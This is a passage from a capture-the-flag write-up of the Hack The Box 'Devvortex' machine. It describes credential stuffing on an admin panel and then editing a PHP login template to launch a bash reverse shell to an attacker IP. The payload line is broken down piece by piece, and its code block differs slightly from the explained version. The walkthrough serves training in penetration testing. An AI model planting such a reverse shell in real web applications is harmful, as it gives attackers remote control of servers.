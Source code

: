Password stuffing Lewis' credentials on the `/administrator` page resulted in a successful authentication.

Checking SSH with Lewis' credentials revealed no further credential re-use.

```bash
┌──(kali㉿kali)-[~/Documents/HTB-Machines/devvortex/exploits]
└─$ ssh lewis@10.129.15.24        
lewis@10.129.15.24's password: 
Permission denied, please try again.
lewis@10.129.15.24's password: 
```

## Foothold - PHP reverse shell

On the admin panel is a warning about the server using an outdated version of PHP.

<img src="/assets/img/20240115-devvortext-phpwarning.png" alt="20240115-devvortext-phpwarning.png" class="auto-resize">

Moving to `/System/Templates/Administrator Templates`, it was identified that the user has access to the PHP templates. The `login.php` was edited to send a reverse shell when the page is served.

The modification made was:

```php
<?php
system('bash -c "bash -i >& /dev/tcp/10.10.14.16/4321 00>&1"');
<SNIP>
```

- `system()` *Function in PHP*: This is a PHP function that is used to execute an external program. The `system` function will execute the given command and output the result. In this context, it is being used to execute a bash command.
- `bash -c`: This tells the system to execute the following string with Bash.
- `"bash -i >& /dev/tcp/10.10.14.16/4321 0<&1"`: This is the string command that Bash executes.
- `bash -i`: This starts an interactive Bash shell (`-i` flag for interactive).
- `>& /dev/tcp/10.10.14.16/4321`: This redirects the standard output (stdout) of the shell to a TCP connection to the specified IP address and port. 
- `0<&1`: This part redirects the standard input (stdin) to the shell from the same TCP connection. The `0<&1` means to take input (file descriptor 0) from the same place as the standard output (file descriptor 1).
